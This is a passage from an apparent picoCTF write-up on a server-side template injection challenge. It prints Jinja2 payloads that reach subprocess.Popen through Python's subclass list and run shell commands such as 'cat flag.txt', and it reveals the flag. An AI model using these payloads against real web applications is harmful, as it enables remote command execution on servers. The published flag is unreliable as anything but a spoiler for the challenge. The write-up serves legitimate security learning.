 

#### 3. Try Accessing Built-ins

To escalate, we inject the following payload to access built-ins:


{% raw %}
**Code:** `{{ ''.__class__.mro[2].__subclasses__() }}`
{% endraw %}



This gives access to all subclasses, including `Popen`.





#### 4. Find `subprocess.Popen` Index

We locate the index of `subprocess.Popen` subclass from the list and use it to execute code. Example:

{% raw %}
**Code:** `{{ ''.__class__.mro[2].__subclasses__()[<index>]("ls", shell=True, stdout=-1).communicate() }}`
{% endraw %}



Try commands like `cat flag.txt`.



#### 5. Extract the Flag

Eventually, we find the flag using a working payload like:

{% raw %}
**Code:** `{{ ''.__class__.mro[2].__subclasses__()[<index>]("cat flag.txt", shell=True, stdout=-1).communicate() }}`
{% endraw %}




And finally...

![Flag Final](images/sst1.png)



#### 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}





## n0s4n1ty 1 (File upload vulnerabilty)
